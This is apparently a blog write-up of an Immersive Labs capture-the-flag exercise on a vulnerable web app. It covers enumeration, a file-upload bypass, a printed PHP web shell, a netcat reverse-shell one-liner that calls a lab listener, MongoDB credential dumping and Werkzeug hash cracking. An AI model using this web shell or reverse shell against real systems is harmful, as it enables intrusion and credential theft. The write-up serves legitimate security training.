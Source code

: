```yaml
---
date: 2025-03-10
categories: [CTF, ImmersiveLabs]
title: "IML - Mini CTF: Vulnerable Web App – Ep.1"
tags: ['web exploit', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "Mini CTF Vulnerable Web App –-1 - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# IML - Mini CTF: Vulnerable Web App – Ep.1

- On the main page, we casn sign up - but the Registration is giving a "Username too long!" error
Even if we give one letter


![image1](../resources/f3962ea2932041bb8298291c972a403f.png)

- In the brief it says that the app is still in development:

![image2](../resources/a39e5ba82b9c41b8ab0402482dd1c2bf.png)

- Open Burp and break the app (took username param out):

![image3](../resources/6039703708924a149b3cf483f2fcb8a6.png)

- We can see the format of the username here - **admin@mywebsite.com**

- So we can create an account using:
name@website.com - It needs the @ and the .com

Use the same name for the email

And a long password

- Login

![image4](../resources/7290a6dcbd2142038dcf860038e50970.png)

- Do a directory scan:
`dirb http://10.102.88.96 /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -c "session=eyJlbWFpbCI6ImFkbWluMkBteXdlYnNpdGUuY29tIn0.ZkxlMA.8rXIHijh614ybDQnm6DKb5ABNO8"`


![image5](../resources/63d473c8b4154fbc95ea8c1f6e651de5.png)

- We can see an uploads folder

- If we look at the Change Avatar feature - we can upload a file:

![image6](../resources/89b12ff7109d4bb6bff31de02b0f7665.png)

- On revshells find the php cmd command and create a **script.php** file:

```html
<html>
<body>
  <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
  </form>
  <pre>
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
  </pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>

```

- Upload that file

- Go to  `http://10.102.88.96/static/uploads/script.php`

![image7](../resources/8f74a9b4fd9c4b96a62b6c0040913d0d.png)

- We have RCE

- Set up listener
- Run a bash rev shell command:

```bash
  rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.102.74.132 8881 >/tmp/f
```

![image8](../resources/b2b31ce3cc2b40caa7da056df56c1cc8.png)


![image9](../resources/f180143cee174381a848c1a5031eeb2a.png)

- Admin creds:

![image10](../resources/34502bdd941e4ad099f3fff9cad66ece.png)

- MongoDB is running

```bash
mongo
show databases
use dev
show collections
db.user.find()
```

![image11](../resources/e251a386eac04e2c9553011465c9c8ae.png)

Python Werkzeug
corresponds to:
pbkdf2:sha256:\[ITERATIONS\]\$\[RAW SALT EVEN THOUGH IT LOOKS BASE64\]\$\[HEXDIGEST OF pbkdf2 sha256 hmac\]


- We can use the tool:
<https://github.com/AnataarXVI/Werkzeug-Cracker>

Use admin hash (from admin_details.txt):

pbkdf2:sha256:50000\$mqWZ9okN\$8840ee19b918c135fcf0f639a4c0efd0425fcee6462d1d59d40493e07ed9ab8b
